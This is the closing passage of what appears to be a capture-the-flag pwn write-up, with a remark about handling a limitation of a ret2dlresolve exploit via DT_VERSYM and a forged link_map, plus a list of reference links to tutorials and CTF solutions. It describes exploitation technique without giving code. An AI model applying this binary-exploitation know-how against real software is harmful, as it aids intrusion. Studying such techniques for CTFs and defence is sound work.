3. To deal with the 2nd limitation, we probably could do something with the
   DT_VERSYM byte in `link_map` and we then need to worry about more parts in
   multiple sections, and I believe it won't be easier than my approach. It
   also required to manually forge `link_map` anyway.

## Reference

- [ZIP (file format) - Wikipedia](https://en.wikipedia.org/wiki/ZIP_(file_format))
- [ret2dlresolve超详细教程(x86&x64)](https://blog.csdn.net/qq_51868336/article/details/114644569)
- [redpwnCTF 2021 - devnull-as-a-service (pwn)](https://activities.tjhsst.edu/csc/writeups/redpwnctf-2021-devnull)
- [0ctf babystack with return-to dl-resolve](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)
- [ret2dlresolve利用方法](https://blog.csdn.net/qq_38204481/article/details/90074190)
